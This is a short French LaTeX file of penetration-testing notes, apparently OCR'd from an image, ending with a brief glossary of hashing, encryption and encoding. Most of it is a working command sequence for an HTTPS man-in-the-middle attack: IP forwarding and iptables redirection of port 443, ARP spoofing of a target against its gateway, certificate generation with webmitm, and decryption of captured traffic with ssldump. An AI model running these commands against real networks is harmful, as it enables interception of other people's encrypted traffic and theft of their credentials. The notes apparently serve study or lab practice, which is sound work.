 \documentclass[a4paper,11pt]{article}				    %
\begin{document}
{
\url{http://forum.backtrack-fr.net/viewtopic.php?id=2753}\\
\url{http://arpspoof.sourceforge.net/}\\
\url{http://www.rtfm.com/ssldump/}
}
{
	\\ En terme d'analyse les flux chiffr\'es sont assez compliqu\'es \`a exploiter. 
	On peut donc pour d\'echiffrer facilement le flux, effectuer un MitM.
}
{
Mettre en place la redirection de flux (ici HTTPS et activer la redirection de port) :\\
{\sl \color{blue}
echo 1 > /proc/sys/net/ipv4/ip\_forward\\

iptables -t nat -A PREROUTING -p tcp {-}{-}dport 443 -j REDIRECT\\
iptables -A FORWARD -j ACCEPT\\
}

Spoofing de la machine cible (ip cible et ip de la passerelle) :\\
{\sl \color{blue}
arpspoof -t 192.168.0.10 192.168.0.1\\
}

G\'en\'eration de certificat avec webmitm (lors de la 1er utilisation) de \textbf{} :\\
\textit{Penser \`a quitter webmitm apr\`es (on peut aussi l'utiliser pour la capture tcpdump/wireshark)}.\\
{\sl \color{blue}
webmitm -d\\
}

D\'echiffrement du flux avec ssldump (on lui indique l'emplacement du certificat \`a utiliser) :\\
{\sl \color{blue}
	ssldump -n -d -k /usr/share/ettercap/etter.ssl.crt | tee ssldump.log
}

}
{
\url{http://fr.wikipedia.org/wiki/Portail:Cryptologie}
}
{
\\\underline{Hachage :} emprunte, permettant d'identifier des donn\'ees, les donn\'ees d'origne sont ir\'ecup\'erables ;
\\\underline{Chiffrement :} utilisation d'un secret et d'algorithmes complexes pour rendre des donn\'ees incompr\'ehensibles.
\\\underline{Encodage :} transformation de donn\'ees au moyen de fonctions simples \`a partir d'une r\'eference pour rendre des donn\'ees incompr\'ehensibles.

}
\end{document}
